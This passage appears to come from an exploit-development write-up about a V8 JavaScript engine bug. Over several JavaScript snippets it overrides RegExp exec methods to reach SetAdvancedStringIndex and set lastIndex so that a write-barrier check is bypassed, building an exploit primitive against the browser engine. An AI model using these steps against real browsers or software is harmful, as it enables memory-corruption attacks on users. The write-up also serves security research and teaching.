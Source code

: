 ```js
var re = new RegExp("leet", "g");
re.lastIndex = 1337;
re.exec = function () {
    return [""]  // to get into `SetAdvancedStringIndex`
}
re[Symbol.replace]("", "l33t");  // infinite loop
console.log(re.lastIndex);
```

Notice that the program just hangs as we are stuck inside an infinite loop.
This is because `if (IsNull(*result, isolate)) break;` is never executed as
now `RegExpExec` returns `[""]`. To circumvent this, we could just overwrite
this function again to return `null`.
```js
var re = new RegExp("leet", "g");
re.lastIndex = 1337;
re.exec = function () {
    re.exec = function () { return null; };  // to avoid infinite loop
    return [""];  // to get into `SetAdvancedStringIndex`
}
re[Symbol.replace]("", "l33t");
console.log(re.lastIndex);  // 0
```

If we run it inside GDB and set a breakpoint on `SetAdvancedStringIndex`, we
could see that the breakpoint is indeed hit but our final `re.lastIndex` is
still `0`. Recall that it is reset to `0` on every `Runtime_RegExpReplaceRT` call [3].
However, notice that `RegExpExec` is called after [3]. This means that we could
re-assign `re.lastIndex` inside our modified `re.exec` function and when `SetAdvancedStringIndex`
is called, `re.lastIndex` is not `0` anymore.

```js
var re = new RegExp("leet", "g");
re.lastIndex = 1337;
re.exec = function () {
    re.lastIndex = 1337;
    re.exec = function () { return null; };  // to avoid infinite loop
    return [""];  // to get into `SetAdvancedStringIndex`
}
re[Symbol.replace]("", "l33t");
console.log(re.lastIndex);  // 1338 == 1337+1
```

Finally, the final `re.lastIndex` is `1` more than `1337` which is to be expected
but recall that to skip the write barrier, we need to pass `HasInitialRegExpMap`
check which is only possible if we do not mess with our object property. One
way to achieve this is to do `delete re.exec;` such that subsequent call to `re.exec`
goes into `RegExp.prototype.exec`. However, doing so results in `re.lastIndex`
no longer `1338` but `0`. Apparently, the original `RegExp.prototype.exec`
messes with `lastIndex` property as well. Luckily, since this is JavaScript, we could
overwrite `RegExp.prototype.exec` as well.

```js
var re = new RegExp("leet", "g");
var exec_bak = RegExp.prototype.exec;  // backup original exec()
RegExp.prototype.exec = function () { return null; };
re.exec = function () {
    re.lastIndex = 1337;
    delete re.exec;  // to pass `HasInitialRegExpMap` check and falls back to RegExp.prototype.exec to avoid infinite loop
    return [""];  // to get into `SetAdvancedStringIndex`
}
re[Symbol.replace]("", "l33t");
console.log(re.lastIndex);  // 1338 == 1337+1
RegExp.prototype.exec = exec_bak;  // restore original exec()
```


[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>